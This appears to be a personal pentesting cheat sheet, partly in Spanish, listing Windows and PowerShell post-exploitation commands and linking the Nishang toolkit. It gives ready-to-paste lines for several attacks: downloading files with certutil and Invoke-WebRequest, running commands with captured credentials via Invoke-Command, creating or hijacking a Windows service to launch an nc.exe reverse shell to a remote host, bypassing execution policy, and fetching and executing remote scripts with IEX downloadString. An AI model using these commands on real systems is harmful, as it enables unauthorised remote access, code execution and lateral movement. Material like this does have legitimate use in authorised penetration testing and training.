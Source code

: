![[Pasted image 20230215173659.png]]

---
## [Nishang](https://github.com/samratashok/nishang) ---> Repo de pentesting en Powershell

```powershell
# Mostrar archivos ocultos en el directorio actual
dir /AH
# Buscar archivos en el sistema desde el directorio actual
> dir /r /s {name}
# Realizar una lectura del contenido de un archivo 
> type {file}
# Migrar a usuarios 
> cacls 
# Analizar los permisos de un archivo 
```
## Descargar archivos con certutil.exe
```shell
certutil.exe -f -urlcache -split {url/file} {file}
# Descargar un archivo desde una url y depositarlo 
```
## Play with Scripts Block
```PowerShell
# Al tener credenciales, podriamos intentar ejecutar comandos con ese usuario para poder entablarnos una revershell
> $user = '{domain}\{name}'
# Guardamos en la variable user, el nombre del usuario
> $password = ConvertTo-SecureString '{password}' -AsPlainText -Force
# Guardamos en la variable password lo contraseña, ya que en texto claro nos traeria problemas.
> $cred = New-Object System.Management.Automation.PSCredential($user, $password)
# Creamos la credencial en la variable cred.
> Invoke-Command -ComputerName {computer_name} -Credential $cred -ScriptBlock { "command" }
```
## Create Reverse Shell Service
```powershell

> sc.exe create foo binPath="C:\Users\Dobliuw\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```
## Manipulate Service Settings to Execute Reverse Shell
```powershell

> sc.exe config VMTools binPath="C:\Users\dobliuw\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
``` 
## Start and Stop Service
```powershell
> sc.exe start {service}

> sc.exe stop {service}
```
## Download Files with Powershell
```powershell
> Invoke-WebRequest 'http://{dominio}/{recurso}' -OutFile ''

> iwr -uri 'http://{dominio}/{recurso}' -OutFile '{name}'
```
## Bypass Execution Policy
```powershell
> Set-ExecutionPolicy Bypass -Scope Process
```
## Interpret Powershell from Remote Server
```powershell
> IEX(New-Object Net.WebClient).downloadString('http://{dominio}/{recurso}')
```



